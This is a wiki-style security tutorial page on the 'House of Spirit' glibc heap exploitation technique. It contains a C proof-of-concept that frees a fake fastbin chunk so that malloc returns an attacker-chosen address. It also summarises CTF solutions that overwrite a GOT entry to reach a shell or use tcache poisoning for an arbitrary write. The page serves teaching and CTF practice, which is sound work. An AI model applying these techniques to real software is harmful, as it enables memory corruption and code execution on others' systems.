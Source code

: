 # House of Spirit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

### Code

<details>

<summary>House of Spirit</summary>

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Code altered to add som prints from: https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit

struct fast_chunk {
  size_t prev_size;
  size_t size;
  struct fast_chunk *fd;
  struct fast_chunk *bk;
  char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
  struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
  void *ptr, *victim;

  ptr = malloc(0x30);

  printf("Original alloc address: %p\n", ptr);
  printf("Main fake chunk:%p\n", &fake_chunks[0]);
  printf("Second fake chunk for size: %p\n", &fake_chunks[1]);

  // Passes size check of "free(): invalid size"
  fake_chunks[0].size = sizeof(struct fast_chunk);

  // Passes "free(): invalid next size (fast)"
  fake_chunks[1].size = sizeof(struct fast_chunk);

  // Attacker overwrites a pointer that is about to be 'freed'
  // Point to .fd as it's the start of the content of the chunk
  ptr = (void *)&fake_chunks[0].fd;

  free(ptr);

  victim = malloc(0x30);
  printf("Victim: %p\n", victim);

  return 0;
}
```

</details>

### Goal

* Be able to add into the tcache / fast bin an address so later it's possible to allocate it

### Requirements

* This attack requires an attacker to be able to create a couple of fake fast chunks indicating correctly the size value of it and then to be able to free the first fake chunk so it gets into the bin.

### Attack

* Create fake chunks that bypasses security checks: you will need 2 fake chunks basically indicating in the correct positions the correct sizes
* Somehow manage to free the first fake chunk so it gets into the fast or tcache bin and then it's allocate it to overwrite that address

**The code from** [**guyinatuxedo**](https://guyinatuxedo.github.io/39-house\_of\_spirit/house\_spirit\_exp/index.html) **is great to understand the attack.** Although this schema from the code summarises it pretty good:

```c
/*
    this will be the structure of our two fake chunks:
    assuming that you compiled it for x64

    +-------+---------------------+------+
    | 0x00: | Chunk # 0 prev size | 0x00 |
    +-------+---------------------+------+
    | 0x08: | Chunk # 0 size      | 0x60 |
    +-------+---------------------+------+
    | 0x10: | Chunk # 0 content   | 0x00 |
    +-------+---------------------+------+
    | 0x60: | Chunk # 1 prev size | 0x00 |
    +-------+---------------------+------+
    | 0x68: | Chunk # 1 size      | 0x40 |
    +-------+---------------------+------+
    | 0x70: | Chunk # 1 content   | 0x00 |
    +-------+---------------------+------+

    for what we are doing the prev size values don't matter too much
    the important thing is the size values of the heap headers for our fake chunks
*/
```

{% hint style="info" %}
Note that it's necessary to create the second chunk in order to bypass some sanity checks.
{% endhint %}

## Examples

* **CTF** [**https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html**](https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html)
  * **Libc infoleak**: Via an overflow it's possible to change a pointer to point to a GOT address in order to leak a libc address via the read action of the CTF
  * **House of Spirit**: Abusing a counter that counts the number of "rifles" it's possible to generate a fake size of the first fake chunk, then abusing a "message" it's possible to fake the second size of a chunk and finally abusing an overflow it's possible to change a pointer that is going to be freed so our first fake chunk is freed. Then, we can allocate it and inside of it there is going to be the address to where "message" is stored. Then, it's possible to make this point to the `scanf` entry inside the GOT table, so we can overwrite it with the address to system.\
    Next time `scanf` is called, we can send the input `"/bin/sh"` and get a shell.

* [**Gloater. HTB Cyber Apocalypse CTF 2024**](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/gloater/)
  * **Glibc leak**: Uninitialized stack buffer.
  * **House of Spirit**: We can modify the first index of a global array of heap pointers. With a single byte modification, we use `free` on a fake chunk inside a valid chunk, so that we get an overlapping chunks situation after allocating again. With that, a simple Tcache poisoning attack works to get an arbitrary write primitive.

## References

* [https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit](https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
